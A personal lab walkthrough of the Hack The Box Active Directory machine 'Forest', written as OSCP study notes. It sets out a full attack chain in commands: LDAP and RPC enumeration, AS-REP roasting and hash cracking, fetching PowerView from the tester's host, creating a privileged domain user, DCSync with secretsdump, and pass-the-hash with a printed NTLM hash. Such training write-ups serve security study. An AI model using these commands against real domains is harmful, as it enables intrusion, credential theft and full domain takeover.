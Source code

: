 # Walkthrough
Name: Forest  
Date: 03/06/2022  
Difficulty: Easy / User Average: Medium  
Description: Retired Staff Pick Active Directory machine  
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.  
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.  

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:
![ping](Screenshots/ping.png)

`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```

![rpc](Screenshots/rcpenum.png)
![rpc1](Screenshots/rcpenum-one.png)
![rpc2](Screenshots/rcpenum-two.png)

The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```

## Exploit

Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.
![cme-smb-pass-pol](Screenshots/cme-smb-pass-pol.png)
The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```
![svc-cracked](Screenshots/svc-alfresco.png)

Then use the credentials to enumerate smb shares

![cme-share-enum](Screenshots/cme-enum-shares.png)

## Foothold

Then evil-winrm with those credentials onto the machine.

![user](Screenshots/user.png)

Then researched loads of impacket use cases, till I felt like I had a better idea about using it, then learnt how to setup a smb share with impacket-smbserver following along with the video:

```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## PrivEsc

I instead of Bloodhound at first wanted to use [ADAPE](https://github.com/hausec/ADAPE-Script) and [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Also general AD PrivEsc manually to add to me very lack luster Active Directory Privilege Escalation Cheastsheet.  I tried setting up an smbserver but I did not work then went to the trusty

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$ip:$port/powerview.ps1','C:\Users\svc-alfresco\Desktop\powerview.ps1')"
```

ADAPE requires `set-executionpolicy bypass`, which `svc-alfresco` user can't set. I tried I powerview.ps1 and then remember the pain of trying to get sharphound to work in the earlier part of this year to no success so also tried that. 
```bash
ulimit -n 40000 
# THEN
sudo neo4j console
# THEN goto localhost:7474
```
Default credentials
USER: neo4j
PASS: neo4j

```bash
cd /tmp; curl https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip -oL SharpHound.zip

```
Use the same file transfer method as before
```powershell
.\SharpHound.exe -c all
```

```bash
bloodhound --no-sandbox
```
Following along with Ippsec after the agony of SharpHound maddness. I needed to get smbserver to work to transfer host a server. So went back to retry making smbserver. It felt amazing making that finally work. Wow.
Transfered the sharphound output zip file and dragged it into Bloodhound, watch some more Ippsec for how to go where to look - definately need to improve in this respect as to my person maentyal mapping to the groupings and how to fid weak points.

![bh](Screenshots/bloodhound.png)

Basically TL;DR/watch Ippsec explain is that the Account Operators Group can make accounts and svc-alfresco is part of that group and there is the Exchange server connected to it that the Account.
```powershell
net user $user $password /add /domain
net group "Exchange Windows Permissions" /add $user
```
My Bloodhound did not represent the chain to DC from Exchange Windows Permissions group, so I used the `Reachable Highest Value Targets` query here
This is not correct as some weird occured; following along 
![bh3](Screenshots/bh-weird.png)

![bh2](Screenshots/bh-abuse.png)

And the full glory of the Forest Machine and Bloodhound:

![bh4](Screenshots/fullglory.png)

Cool thing I already uploaded powerview! 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
# What Bloodhound suggested, it did not work.
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
# Actual path: get the dev branch of PowerView
# add the the end of the git clone -b dev
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wallace -Rights DCSync
# impacket tool secretsdump
impacket-secretsdump htb/$user:password@ip
crackmapexec smb $ip -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```



